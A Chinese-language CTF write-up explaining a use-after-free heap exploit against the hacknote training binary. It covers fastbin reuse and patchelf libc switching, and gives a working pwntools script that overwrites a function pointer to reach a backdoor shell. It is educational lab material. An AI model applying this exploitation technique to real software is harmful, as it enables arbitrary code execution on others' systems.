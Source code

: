 ```yaml
---
title: 「PWN」堆的第一次尝试 - UseAfterFree
date: 2022-06-30
tags: ['CTF', 'Pwn', ]
authors: [nova]
---
```


磨磨蹭蹭这么久也总算是入HEAP的坑了

感谢Ayoung不开之恩（bushi）



先来看一下最简单的`Use After Free`利用，对堆的知识需求很低。明天估计会写一个`Double Free + Unlink`的

用的是`CTF-WIKI`的原题[hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote)

<!--truncate-->

# Pwntools使用不同的`libc`作为动态解释器的方法

这里提一下中途遇到的坑。`libc-2.31`对堆的回收机制有了不少改变，因此在一开始根据`CTF-WIKI`的方法调试的时候行不通。因此写一下更换动态解释器的方法。

首先需要两个工具，[glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one)和[patchelf](https://github.com/NixOS/patchelf)

安装方法自行查看`README.md`不多赘述



下载对应的`libc`后，使用`patchelf`对`ELF`文件进行解释

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

## 

# Use After Free

引起这个漏洞的原因主要是`dangling pointer` —— 在`free()`后内存指针没有被设置为NULL。

如果此时其他代码修改了这段内存的内容的话，再次使用这段内存就会出现问题。

##  Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free 
# Make
```

保护全关、64位

![struct_note](https://cdn.ova.moe/img/image-20220314214330300.png)

程序定义了一个结构体，定义了一个`printnote`的指针指向`print_note_content`方法以及一个`content`的指针。

![add_note()](https://cdn.ova.moe/img/image-20220314214555940.png)

看一下`add_note()`的实现：首先`malloc`了一个`struct note`，也就是16字节的堆。在这之后，为`content`申请了`size`字节的堆。

![del_note()](https://cdn.ova.moe/img/image-20220314214818884.png)

注意看`del_note()`。在删除节点后，`count`没有变化——这一方面限制了我们`add_note()`的次数，另一方面也给我们的漏洞利用提供了便利。同时，我们可以发现`free`之后`notelist[idx]`并没有置为`NULL`，这便给我们的`Use After Free`带来了可能。

![print_note()](https://cdn.ova.moe/img/image-20220314215110776.png)

可以看出，`print_note()`调用了`notelist[idx]->printnote(notelist[idx])`方法，假如我们能把`notelist[idx]->printnote`的内存修改了的话，也就能做到执行后门函数的效果了。



## Exploit

因为`struct note`是固定`0x20`大小的`chunk`，所以我们主要思考`fastbins`相关的利用

因为`fastbins`维护了`0x20~0x80`的数个链表，且有后进先出的机制。我们不妨这样思考：

倘若我们申请两个`0x20`的note记为`note1`、`note2`，此时我们的程序应该有4个堆——两个大小为`0x20`的`note1_struct_note`和`note2_struct_note`以及两个大小为`0x30`的`note1`和`note2`（不计算`PREV_IN_USE`的一字节）

这时我们将两个note全部释放，则`fastbisn`中此时应该是这样的

```sh
fastbins:
	0x20: note2_struct_note_addr -> note1_struct_note_addr
	0x30: note2 -> note1
```

如果我们此时再申请一个`0x10`的note`note3`呢？由`fastbins`的回收利用机制我们可以想到

第一个`note2_struct_note_addr`被分配给了`note3_struct_note_addr`，而第二个`note1_struct_note_addr`则被分配给了我们可控的`note3`

这时，如果我们将`note3`的`content`改为后门函数，并执行`print_note(0)`

——如你所料的，后门函数被执行了。



```python
from pwn import *

sh = process(["./use_after_free"])


def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)


def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```





## GDB

以上只是理论知识，没有`GDB`实际调过确实是一知半解。

根据上面的exp，我们分别在第二个`add_note()`和第二个`delete_note()`以及最后一个`add_note()`下调试看看

![heap after adding](https://cdn.ova.moe/img/image-20220314221552787.png)

![heap after adding](https://cdn.ova.moe/img/image-20220314221633396.png)

`0x401256`是`print_note_content()`的地址，`0xd04030`和`0xd04080`是`content`的地址

![heap after deleting](https://cdn.ova.moe/img/image-20220314221804318.png)

![heap after deleting](https://cdn.ova.moe/img/image-20220314221824810.png)

![heap after deleting](https://cdn.ova.moe/img/image-20220314221944311.png)

可以看出，不同大小的链表进入了不同的`fastbins`中。



![heap final](https://cdn.ova.moe/img/image-20220314222135890.png)

![heap final](https://cdn.ova.moe/img/image-20220314222201810.png)

![heap final](https://cdn.ova.moe/img/image-20220314222221269.png)

最后一次添加之后，我们发现：`fastbins`中的两个`0x20`大小的堆被回收利用了！且作为`content`的`0x4015f9`的后门函数地址已经写到了一开始`print_note_content()`的地方



此时运行`print_note()`，后门函数便执行了

![Shell!](https://cdn.ova.moe/img/image-20220314222613059.png)

